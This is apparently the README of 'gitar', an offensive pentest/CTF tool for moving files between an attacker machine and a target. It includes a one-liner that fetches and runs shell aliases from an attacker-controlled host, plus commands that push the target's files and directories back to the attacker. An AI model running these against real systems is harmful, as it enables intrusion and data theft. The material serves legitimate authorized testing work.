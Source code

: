 <div align=center>
<h1>gitar</h1>
<img src=https://github.com/ariary/gitar/blob/main/img/gitar-logo.png width=150>
	
<strong>📡 A more sophisticated python HTTP server sibling <br>🎸 focusing on having the simplest interactions for file exchange (Pentest/CTF)<br>🎵 with additional functionalities: <a href=#send-mode>quick file sending</a> and <a href=#webhook-mode>HTTP webhook logging</a> </strong>
<br>
</div>

|![demo](https://github.com/ariary/gitar/blob/main/img/gitar-screen.png)|
|:---:|
|**~>** Have the  ***simplest possible shortcuts*** to upload/download file to/from the target machine<br>**~>** ***No installation needed*** on target machine<br>**~>** ***Fast and simple*** deployment|



## TL;DR *- and listen music*

On my target machine:
 - **Download a file** from my attacker machine: `pull [file]` *(with filename completion)*
 - **Download a directory** from my attacker machine: `pullr [directory]` *(with filename completion)*
 - **Upload a file** to my attacker machine: `push [file]`
 - **Upload a directory** to my attacker machine: `pushr [directory]`

*Before be able to use these shortcut you have to [set up](#set-up) both machines. Once again, the aim is to made it as simple as possible*

## Set up


### 🎸 Launch `gitar` server 
 
On **Attacker machine**: 
```shell
gitar
```

On **Target machine**:

```shell
# Get shortcuts and source them. The one-liner corresponding is by default copy on clipboard. 
# It is also provided by step 1. (in gitar output):
source <(curl -s http://[attacker_ip:port]/alias)
```

**And that's all, you can now `push` or `pull` file [🎶](#tldr---and-listen-music)**

 <sup>[`with 💥`](https://github.com/ariary/bang/blob/main/EXAMPLES.md#share-files)</sup>

### 🐋 Secure launch of `gitar` server

This is basicaly the same as launching `gitar` server. But as we expose our http server we become the prey. Hence we must harden a bit the server. To do this we launch `gitar` inside a container and use HTTPS.

The following steps expose files of current directory. Files uploaded by remote are written inside current directory also.

On **Attacker machine**: 
```shell
docker run -it --rm --net host --cap-drop=all --cap-add=dac_override --user $(id -u):$(id -g)  -v "${PWD}:/gitar/exchange" ariary/gitar
```

**You can now `push`or `pull` file being more safe [🎶](#tldr---and-listen-music)**



<sup>[`with 💥`](https://github.com/ariary/bang/blob/main/EXAMPLES.md#share-files-safely)</sup>

### Pre-requisites

* HTTP Network connectivity between attacker & target machines
* On target machine: `curl` 
	* `tar` for directory upload 
* On attacker machine: 
	* `xclip` to copy command on clipboard (not required)
	* `tree`: to expose it trough server (not required)
	* `dig`: to automatically find extarnal IP (not required)

The aim is to keep "target requirements" as fit as possible. Attacker machine requirements are not a big deal as we have plenty control over it and time to configure it.

## Additional Functionalities

### `send` mode

Use this mode to quickly send a file to a target machine using different method/protocol. The advantage is that you do not have to remember the command line (if required field is not specified with flags it will be asked in a prompt).

It also has a kind of memory. with the `-l` flag it will use the previous configuration to send the file.
```shell
# send /img folder using scp with user root to target.com
gitar send scp -t target.com -u root /img
# now send exploit.sh to the same hsot
gitar send -l exploit.sh
```

### `webhook` mode

Use this mode if you want to have some logs about incoming HTTP requests. It enables us to:
* Log request information
	* request parameter values
	* request header values
        * request body 
* Override response
	* header 
* Forward request to another http server (~ local logging middleware)
* Serve directory
```shell
# log incoming request and retrieve payload parameter value
gitar webhook -P payload
```
## Install

```shell
go install github.com/ariary/gitar@latest
```

## Bonus
- [Bidirectional exchange](./BONUS.md#bidirectional-exchange)
  - [🐋 Container and bidirectional exchange](./BONUS.md#-container-and-bidirectional-exchange)
- [Multiplexing & Port forwarding](./BONUS.md#multiplexing--port-forwarding)
- [Load shortcut directly in your bind shell](./BONUS.md#load-shortcut-directly-in-your-bind-shell)



	
	
